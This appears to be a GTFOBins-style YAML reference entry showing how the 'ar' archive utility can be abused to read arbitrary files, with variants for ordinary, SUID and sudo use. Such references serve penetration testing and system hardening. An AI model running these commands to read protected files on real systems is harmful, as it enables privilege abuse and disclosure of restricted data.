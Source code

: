 ```yaml
---
description: The file appears amid the binary content of the archive.
functions:
  file-read:
    - code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        ar r "$TF" "$LFILE"
        cat "$TF"
  suid:
    - code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        ./ar r "$TF" "$LFILE"
        cat "$TF"
  sudo:
    - code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        sudo ar r "$TF" "$LFILE"
        cat "$TF"
---
```

